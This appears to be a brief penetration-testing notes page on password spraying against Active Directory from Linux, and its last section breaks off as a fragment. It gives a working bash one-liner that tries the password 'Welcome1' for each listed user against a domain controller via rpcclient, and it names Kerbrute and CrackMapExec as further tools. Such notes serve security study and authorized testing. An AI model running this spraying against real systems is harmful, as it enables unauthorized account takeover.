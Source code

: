 # Internal Password Spraying - from Linux ACTIVE Directory

### Using a Bash one-liner for the Attack

* need valid\_users.txt file
  * [password-spraying-making-a-target-user-list-active-directory.md](password-spraying-making-a-target-user-list-active-directory.md "mention")

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
Copy
```



### Using Kerbrute for the Attack

* [#password-spraying-active-directory](kerbrute.md#password-spraying-active-directory "mention")



### Using CrackMapExec & Filtering Logon Failures

* \#cra\




\




